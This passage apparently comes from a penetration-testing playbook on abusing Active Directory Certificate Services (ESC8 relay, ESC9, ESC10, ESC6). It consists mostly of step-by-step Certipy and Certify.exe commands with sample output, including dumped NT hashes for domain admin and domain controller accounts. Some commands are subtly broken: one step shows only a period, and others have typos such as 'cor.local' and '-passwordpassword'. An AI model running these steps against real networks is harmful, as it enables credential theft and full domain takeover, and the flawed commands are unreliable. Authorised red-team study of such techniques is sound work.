							Certipy v4.0.0 - by Oliver Lyak (ly4k)

							[*] Using principal: domain_admin@microsoftdelivery.com
							[*] Trying to get TGT...
							[*] Got TGT
							[*] Saved credential cache to 'domain_admin.ccache'
							[*] Trying to retrieve NT hash for 'domain_admin'
							[*] Got hash for 'domain_admin@microsoftdelivery.com': aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42
			* Example 2: Alternative Template (Great when example 1 falls apart)
				1. Initiate a relay server, but select an alternative template. ADCS enumeration ([AD Enumeration Guide](Templates_and_Books/Redvelations/)) can help identify more templates.

						certipy relay -template 'KerberosAuthentication' -ca ca -dns 10.0.0.1
					* Example output

							Certipy v4.0.0 - by Oliver Lyak (ly4k)

							[*] Targeting http://ca/certsrv/certfnsh.asp
							[*] Listening on 0.0.0.0:445
							[*] Requesting certificate for 'MICROSOFTDELIVE\\DC01$' based on the template 'KerberosAuthentication'
							[*] Got certificate with multiple identifications
							    DNS Host Name: 'DC01.microsoftdelivery.com'
							    DNS Host Name: 'microsoftdelivery.com'
							    DNS Host Name: 'MICROSOFTDELIVE'
							[*] Certificate has no object SID
							[*] Saved certificate and private key to 'dc01$_microsoftdelivery$_microsoftdelive.pfx'
							[*] Exiting...
				1. Force authentication to the relay server. This step can be completed according to the ([AD Forced Authentication Guide](Testaments_and_Books/Redvelations/Active_Directory/003-1_AD_NTLM_Capture_and_Relay_Attacks.md))
				1. Retrieve NTLM Hash and Kerberos information using the certificate.

						certipy auth -pfx 'dc01$_microsoftdelivery$_microsoftdelive.pfx' -dc-ip 10.0.0.1
					* Example Output

							Certipy v4.0.0 - by Oliver Lyak (ly4k)

							[*] Found multiple identifications in certificate
							[*] Please select one:
							    [0] DNS Host Name: 'DC01.microsoftdelivery.com'
							    [1] DNS Host Name: 'microsoftdelivery.com'
							    [2] DNS Host Name: 'MICROSOFTDELIVE'
							> 0
							[*] Using principal: dc01$@microsoftdelivery.com
							[*] Trying to get TGT...
							[*] Got TGT
							[*] Saved credential cache to 'dc01.ccache'
							[*] Trying to retrieve NT hash for 'dc01$'
							[*] Got hash for 'dc01$@microsoftdelivery.com': aad3b435b51404eeaad3b435b51404ee:94f2721f78c81bb17b4e3b39acb1cba0
	* ESC9 (Needs Research/Testing)
		* <details><summary>References (Click to expand)</summary><p>
			* [https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7](https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7)
		* <details><summary>Requirements (Click to expand)</summary><p>
		    * `StrongCertificateBindingEnforcement` set to 1 (default) or 0
		    * Certificate contains the `CT_FLAG_NO_SECURITY_EXTENSION` flag in the msPKI-Enrollment-Flag value
		    * Certificate specifies any client authentication EKU
		    * GenericWrite over any account A to compromise any account B
		* <details><summary>Process (Click to expand)</summary><p>
			1. Obtain the hash of Jane with for instance Shadow Credentials (using our GenericWrite).

					certipy shadow auto -username $DOMAIN_USER@$DOMAIN -p password -account jane
			1. Change the userPrincipalName of Jane to be Administrator. Notice that we’re leaving out the @corp.local part. This is not a constraint violation, since the Administrator user’s userPrincipalName is Administrator@corp.local and not Administrator.

					certipy account update -username $DOMAIN_USER@$DOMAIN -password $PASSWORD -user $TARGET_USER -upn administrator
			1. Request the vulnerable certificate template ESC9. We must request the certificate as Jane. Notice that the userPrincipalName in the certificate is Administrator and that the issued certificate contains no “object SID”.

					certipy req -username jane@cor.local -hashes HASH -ca corp-dc-ca -template ESC9
			1. Change back the userPrincipalName of Jane to be something else, like her original userPrincipalName Jane@corp.local.

					certipy account update -username $DOMAIN_USER@$DOMAIN -passwordpassword -user $TARGET_USER -upn jane@corp.local
			1. Now, if we try to authenticate with the certificate, we will receive the NT hash of the Administrator@corp.local user. You will need to add -domain <domain> to your command line since there is no domain specified in the certificate.

					certipy auth -pfx administrator.pfx -domain corp.local
	* ESC10 (Needs Research/Testing)
		* <details><summary>References (Click to expand)</summary><p>
			* [https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7](https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7)
		*  Case 1
			* <details><summary>Requirements (Click to expand)</summary><p>
				* `StrongCertificateBindingEnforcement` set to 0
		    	* GenericWrite over any account A to compromise any account B
	    	* <details><summary>Overview (Click to expand)</summary><p>
				* In this case, $DOMAIN_USER@$DOMAIN has GenericWrite over Jane@corp.local, and we wish to compromise Administrator@corp.local. The abuse steps are almost identical to ESC9, except that any certificate template can be used.
			* <details><summary>Recommended: Certipy (Click to expand)</summary><p>
				1. Obtain the hash of Jane with for instance Shadow Credentials (using our GenericWrite).

						certipy shadow auto -username $DOMAIN_USER@$DOMAIN -p password -account jane
				1. Change the userPrincipalName of Jane to be Administrator. Notice that we’re leaving out the @corp.local part. This is not a constraint violation, since the Administrator user’s userPrincipalName is Administrator@corp.local and not Administrator.

						certipy account update -username $DOMAIN_USER@$DOMAIN -password $PASSWORD -user $TARGET_USER -upn administrator
				1. Request any certificate that permits client authentication, for instance the default User template. We must request the certificate as Jane. Notice that the userPrincipalName in the certificate is Administrator.

						certipy req -ca 'cor-dc-ca' -username jane@corp.local -hashes HASH
				1. Change back the userPrincipalName of Jane to be something else, like her original userPrincipalName Jane@corp.local.

						certipy account update -username $DOMAIN_USER@$DOMAIN -password $PASSWORD -user $TARGET_USER -upn jane@corp.local
				1. Authenticate with the certificate and receive the NT hash of the Administrator@corp.local user. You must add -domain <domain> to your command line since there is no domain specified in the certificate.

						.
		* Case 2
			* <details><summary>Requirements (Click to expand)</summary><p>
				* `CertificateMappingMethods` contains UPN bit flag (0x4)
			    * GenericWrite over any account A to compromise any account B without a userPrincipalName property (machine accounts and built-in domain administrator Administrator)
				* In this case, $DOMAIN_USER@$DOMAIN has GenericWrite over Jane@corp.local, and we wish to compromise the domain controller DC$@corp.local.
			* <details><summary>Recommended: Certipy (Click to expand)</summary><p>
				1. First, we obtain the hash of Jane with for instance Shadow Credentials (using our GenericWrite).
				1. Next, we change the userPrincipalName of Jane to be DC$@corp.local. This is not a constraint violation, since the DC$ computer account does not have userPrincipalName.
				1. Now, we request any certificate that permits client authentication, for instance the default User template. We must request the certificate as Jane.
				1. Then, we change back the userPrincipalName of Jane to be something else, like her original userPrincipalName (Jane@corp.local).
				1. Now, since this registry key applies to Schannel, we must use the certificate for authentication via Schannel. This is where Certipy’s new -ldap-shell option comes in.
				1. If we try to authenticate with the certificate and -ldap-shell, we will notice that we’re authenticated as u:CORP\DC$. This is a string that is sent by the server.
				1. One of the available commands for the LDAP shell is set_rbcd which will set Resource-Based Constrained Delegation (RBCD) on the target. So we could perform a RBCD attack to compromise the domain controller.
				1. Alternatively, we can also compromise any user account where there is no userPrincipalName set or where the userPrincipalName doesn’t match the sAMAccountName of that account. From my own testing, the default domain administrator Administrator@corp.local doesn’t have a userPrincipalName set by default, and this account should by default have more privileges in LDAP than domain controllers.

##### Needs Research/Testing

* Zer1t0's GitHub: Certi -<br />[https://github.com/zer1t0/certi](https://github.com/zer1t0/certi)


#### From a Windows Machine
##### Remote

* ESC1
* ESC2
* ESC3
* ESC4
* ESC5
* ESC6
	* <details><summary>Recommended: Certify.exe (Click to expand)</summary><p>

			Certify.exe request /ca:'domain\ca' /template:"Certificate template" /altname:"admin"
* ESC7
* ESC8



##### Domain-Joined Only



### Needs Research

* <details><summary>Needs Research (Click to expand)</summary><p>
	* Harmjoy Twitter Status
		* [https://twitter.com/harmj0y/status/1458475570187182082](https://twitter.com/harmj0y/status/1458475570187182082)
	* ESC1 Tips from "domchell"
		* Dominic Chell Script
			* [https://gist.github.com/dmchell/5eb871f052db13dc38cbb902ea8fb50e](https://gist.github.com/dmchell/5eb871f052db13dc38cbb902ea8fb50e)
			* [https://twitter.com/domchell/status/1440314155462905859](https://twitter.com/domchell/status/1440314155462905859)
			* "ESC1 vuln cert template with PEND_ALL_REQUESTS (meaning enrolment approval reqd) which I also had a write ace on. I couldn't find any existing code to bypass so knocked up this tool to reset the mspki-enrollment-flag attrib to exploit it"